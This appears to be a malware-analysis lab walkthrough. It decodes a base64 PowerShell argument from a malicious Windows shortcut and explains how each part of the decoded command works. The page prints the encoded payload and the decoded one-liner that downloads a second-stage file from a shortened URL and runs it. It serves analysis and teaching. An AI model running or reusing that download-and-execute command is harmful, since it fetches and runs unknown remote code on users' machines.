


import { Code } from "@astrojs/starlight/components";
import { Steps } from "@astrojs/starlight/components";

<Steps>

1.  Let's start our analysis, first lets check the first entry, which is a `Process Start` operation. We can see that its a powershell command being executed. Hover over it with your mouse pointer to see more details about the command as shown in the following image.

    

2.  We are able to see a long string passed to the powershell application as an argument, which looks like a `base64` encoded string. The encoded string shown in the above image is here as follows,

    <Code
      code="aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA="
      lang="json"
      title="Base64 Encoded String"
      wrap
    />

3.  Let's decode this `base64` encoded string with **CyberChef**. The **CyberChef** recipe is as follows:

    <Code
      code="https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()"
      lang="plaintext"
      title="CyberChef Recipe URL"
      wrap
    />

4.  **CyberChef** has successfully decoded the `base64` encoded string as shown in the following image.

    

5.  The decoded string shown in the above image is as follows,

    <Code
      code="iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd"
      lang="powershell"
      title="Powershell"
      wrap
    />

    Here is a breakdown of the above powershell command,

        - **`iwr`**: This stands for `Invoke-WebRequest`, a PowerShell command used to make HTTP requests.
        - **`is.gd/jwr7JD`**: This is a shortened URL, most likely pointing to some remote file or script. It's important to expand this URL to see what the original source is.
        - **`-o $env:TMP/.cmd`**: This option saves the downloaded content to a file named `.cmd` in the system's temporary directory.
        - **`& $env:TMP/.cmd`**: The `&` symbol in PowerShell is used to execute a command or script. Here, it runs the `.cmd` file that was just downloaded.

6.  Thus the `Windows Powershell` shortcut tries to download a second stage payload and executes it. But it isn't successful because it wasn't able to fetch the actual payload since we are in a isolated VM and probably **INetSim** should have responded with its template webpage when the http request was made to resolve the shortened URL, which the powershell command might have saved as the `.cmd` file and tried to execute it, which will obviously fail.

</Steps>